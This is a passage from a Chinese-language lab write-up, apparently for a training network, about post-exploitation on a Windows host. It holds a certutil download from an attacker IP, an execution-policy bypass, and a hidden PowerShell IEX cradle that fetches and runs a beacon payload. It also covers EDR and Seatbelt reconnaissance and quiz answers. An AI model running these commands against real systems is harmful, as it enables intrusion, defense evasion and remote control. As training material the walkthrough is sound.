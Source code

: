 PS C:\Users\watamet> cd .\Desktop\
PS C:\Users\watamet\Desktop> certutil -urlcache -split -f "http://10.50.111.108:88/applocker-bypas-checker.ps1" applocker-bypas-checker.ps1
****  Online  ****
  0000  ...
  0446
CertUtil: -URLCache command completed successfully.
PS C:\Users\watamet\Desktop>
PS C:\Users\watamet\Desktop> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\watamet\Desktop> .\applocker-bypas-checker.ps1
[*] Processing folders recursively in C:\windows
[+]  C:\windows\Tasks
[+]  C:\windows\tracing
[+]  C:\windows\System32\spool\drivers\color
[+]  C:\windows\tracing\ProcessMonitor
```

打开 powershell，执行下面命令，拿到一个beacon

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.50.111.108:80/a'))"
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659670245366.jpg)


远程执行[SharpEDRChecker.exe](https://github.com/PwnDexter/SharpEDRChecker/releases/tag/1.1)

```
beacon> execute-assembly tools/SharpEDRChecker.exe
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659681143334.jpg)



查看检查结果，反病毒软件主要是windows自带的windows defender

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659681691184.jpg)



**Task 39  Situational Awareness So it's just fancy malware?**

> What anti-malware product is employed on PC-FILESRV01?

> amsi

> What anti-virus product is employed on PC-FILESRV01?

> windows defender


把SeatBelt.exe上传到靶机，执行以后结果输出到output.txt
```
c:\Windows\Tasks>.\SeatBelt.exe -group=all >C:\Users\watamet\Desktop\output.txt
